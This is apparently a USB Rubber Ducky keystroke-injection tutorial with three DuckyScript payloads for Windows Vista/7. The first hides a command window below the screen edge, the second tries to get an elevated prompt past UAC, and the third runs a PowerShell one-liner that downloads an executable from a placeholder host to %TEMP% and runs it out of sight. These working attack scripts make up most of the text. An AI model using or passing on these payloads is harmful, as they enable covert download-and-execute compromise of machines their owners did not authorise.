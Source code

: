 The following is an example of how to hide the command window below the bottom of the screen while typing in commands. The window movement part of the script can also be used on any other window. CMD.exe is also run with some command line flags for changing the appearance of the window to make it harder to view, and also a flag that turns on delayed expansion in the command prompt which allows for variable names to be called more than once in a line with no adverse effects. Ex... SET Something = Something + Something_Else
```
REM Target: WINDOWS VISTA/7
REM Encoder V2.4
REM Using the run command for a broader OS base. 
DELAY 3000
GUI r
DELAY 1000
STRING cmd /Q /D /T:7F /F:OFF /V:ON /K
DELAY 500
ENTER
DELAY 750
ALT SPACE
STRING M
DOWNARROW
REPEAT 100
ENTER
```
The following is an attempt to create a hide CMD window script that uses a key combo to run as administrator when UAC is turned on. 
```
REM Target: WINDOWS VISTA
REM Encoder V2.4
REM Purpose: Hide cmd window script that uses a key combo to circumvent UAC limitations. 
DELAY 3000
CONTROL ESCAPE
DELAY 500
STRING cmd /Q /D /T:7F /F:OFF /V:ON /K
DELAY 500
CTRL-SHIFT ENTER
DELAY 1000
ALT C
DELAY 750
ALT SPACE
STRING M
DOWNARROW
REPEAT 100
ENTER
```
Other windows can be hidden also, as demonstrated in this powershell hide, get, and execute. 
```
REM Target: WINDOWS VISTA/7
REM Encoder V2.4
REM Using the run command for a broader OS base. 
DELAY 3000
GUI R
DELAY 1000
STRING powershell (new-object System.Net.WebClient).DownloadFile('http://example.com/bob.old','%TEMP%\bob.exe'); Start-Process "%TEMP%\bob.exe"
DELAY 500
ENTER
DELAY 750
ALT SPACE
STRING M
DOWNARROW
REPEAT 100
ENTER
```
Windows can also be hidden on other sides of the screen ex... replace DOWNARROW with RIGHTARROW, LEFTARROW, UPARROW.

